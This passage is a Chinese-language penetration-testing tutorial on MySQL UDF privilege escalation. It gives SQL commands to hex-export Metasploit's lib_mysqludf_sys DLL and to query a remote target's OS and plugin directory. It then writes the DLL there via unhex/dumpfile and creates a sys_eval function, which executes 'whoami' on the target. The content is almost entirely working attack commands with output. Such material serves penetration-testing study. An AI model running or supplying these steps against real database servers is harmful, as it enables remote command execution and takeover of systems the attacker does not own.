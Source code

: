 

### 方法三、手动输入语句提权

先上传lib_mysqludf_sys文件，然后创建udf函数。

获取lib_mysqludf_sys的16进制，这里直接使用msf的lib_mysqludf_sys文件。文件目录为/usr/share/metasploit-framework/data/exploits/mysql/ 

1. 获取lib_mysqludf_sys的16进制文件。

        登录本地mysql，导出文件

    ```
    select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll')) into outfile '/tmp/hex.txt';
    ```

2. 登录远程目标机mysql，查询目标机系统情况和插件目录。

    ```
    mysql> select @@version_compile_os, @@version_compile_machine;
    +----------------------+---------------------------+
    | @@version_compile_os | @@version_compile_machine |
    +----------------------+---------------------------+
    | Win32                | 32                        |
    +----------------------+---------------------------+
    1 row in set (0.00 sec)

    mysql> select @@plugin_dir;
    +----------------------------+
    | @@plugin_dir               |
    +----------------------------+
    | E:\xampp\mysql\lib\plugin\ |
    +----------------------------+
    1 row in set (0.00 sec)
    ```

3. 将数据导入到mysql插件目录

    ```
    select unhex('4D5A900003000000040...00000000000')into dumpfile "E:\\xampp\\mysql\\lib\\plugin\\lib_mysqludf_sys_32.dll";
    ```

4. 创建sys_eval函数

    ```
    mysql> create function sys_eval returns string soname 'lib_mysqludf_sys_32.dll';
    Query OK, 0 rows affected (0.06 sec)

    # 测试运行命令
    mysql> select sys_eval('whoami');
    +-----------------------+
    | sys_eval('whoami')    |
    +-----------------------+
    | win-88jdvt747gh\test |
    +-----------------------+
    1 row in set (0.18 sec)
    ```
